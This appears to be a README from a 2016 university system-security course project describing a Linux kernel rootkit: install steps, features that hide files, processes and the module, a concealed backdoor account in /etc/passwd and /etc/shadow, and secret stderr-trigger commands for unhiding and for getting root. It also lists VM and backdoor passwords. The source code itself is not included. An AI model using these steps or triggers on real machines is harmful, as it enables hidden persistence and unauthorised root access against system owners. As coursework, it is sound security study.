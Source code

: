 /**********************************************************************************
 *	Last Updated: Nov 27, 2016
 *	CSE509 System Security Fall 2016
 *	Written By:
 *		Edwin Yan (edyan@cs.stonybrook.edu)
 *		Rashmi Makheja (rmakheja@cs.stonybrook.edu)
 *		Sagar Shah (schshah@cs.stonybrook.edu)
 *		Vasia Patov (vpatov@cs.stonybrook.edu) 
 *	Project: Rootkit
 **********************************************************************************/
 
 System Specification:
	
		This project is built and tested on ubuntu 12.04 having kernel version 3.2.0-115-generic-pae
VM ova: https://goo.gl/zjEnPb
Username : iambate
Password : rootkit1337

Backdoor account:
username : rtry
password : rashmi

Steps to install rootkit:

	1) build the kernel, install modules and reboot the system
	2) cd /home/iambate/sys_sec/1337rootkit
		go to the rootkit folder(assuming the rootkit source is in this folder)
	3) sudo make 
		build the module
	4) sudo insmod 1337Rootkit.ko 
		installs the rootkit module


Steps to test the basic requirements:

	1) Hide specific files and directories from showing up when a user does "ls" and similar commands
		i)ls
		ii)lsmod
			 rootkit module and files that have '1337' in their name will be hidden
			 
	2) Modify the /etc/passwd and /etc/shadow file to add a backdoor account while returning the original contents of the 		files (pre-attack) when a normal user requests to see the file
		i) sudo cat /etc/passwd
		ii) sudo cat /etc/shadow
			the above two files should not show content related to user 'rtry'(the backdoor account)
		iii) sudo useradd testrootkit509
		iv) sudo passwd testrootkit509
		v) sudo login (login with the newly added user and passwd created in previous step)
		vi) id
		vii)exit
	
	3) Hides processes from the process table when a user does a "ps"
		i) ps
	
	4) Give the ability to a malicious process to elevate its uid to 0 (root) upon demand
		i)setuid 

Steps To remove rootkit:
	
	i) python -c 'import os; os.write(2, "1337show")'
	ii) sudo rmmod -f 1337rootkit.ko

Additional considerations:

	1) No difference in response time of any operation
	2) Selective hijacking for read so that attacker can log in using the backdoor account
	3) Attacker can login through SSH using the backdoor account
	3) Secret methods to hide/unhide rootkit:
		i) echo "The secret way to unhide rootkit is as follows:"
		   python -c 'import os; os.write(2, "1337show")'
		   echo "The rootkit appears"
		   lsmod |grep rootkit
		ii) echo "The secret way to hide it again"
		    python -c 'import os; os.write(2, "1337hide")'
		    lsmod |grep rootkit
		iii) echo "Some normal non-root user"
		     id
		iv) python -c 'import os; os.system("/bin/bash")'
		    id
		v) echo "One secret to get elevate root privileges is as follow:"
		   python -c 'import os; os.write(2, "1337root"); os.system("/bin/bash")'
		   id
		   echo "Congratulations You are root"
		   exit
		vi) echo "Lets try to uninstall the module"
		    sudo rmmod -f 1337rootkit.ko
		vii) echo "User cannot uninstall unless he knows the secret"
		     python -c 'import os; os.write(2, "1337show")'
		     sudo rmmod -f 1337rootkit.ko

Assumptions:

	1) passwd file assumed to be at max 4kb
	2) rootkit is assumed to be present on the victim's system
	
	
